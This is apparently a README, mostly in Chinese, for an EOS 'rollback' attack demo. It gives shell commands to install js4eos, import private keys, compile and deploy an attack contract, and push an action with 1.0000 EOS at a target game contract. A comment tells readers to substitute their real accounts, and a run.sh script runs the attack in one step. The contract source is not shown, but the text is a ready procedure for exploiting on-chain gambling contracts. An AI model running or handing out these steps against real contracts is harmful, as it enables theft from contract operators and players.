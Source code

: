 # Run 'rollback' demo
EOS Rollback回滚攻击实例
```
//mac
npm install -g js4eos
//ubuntu
sudo npm install -g js4eos
js4eos wallet create
//请一个一个导入下面用到的账号的私钥
js4eos wallet import your_private_key
js4eos compile -o rollback/rollback.wasm rollback/rollback.cpp
js4eos compile -g rollback/rollback.abi rollback/rollback.cpp
js4eos set contract contractaccount rollback
#assign eosio.code permission before push action
js4eos push action contractaccount dream '[ "targetgamecontract", "1.0000 EOS", "game memostring" ]' -p contractaccount
#上面的各种账号请更改为你的真实账号
```
如果使用cleos程序，只需将上面的js4eos替换为cleos即可<br>

如果你在linux/mac下且有本地nodeos可以使用run.sh脚本一键执行
```
#install js4eos if not
sudo npm install -g js4eos
#run
./run.sh
```
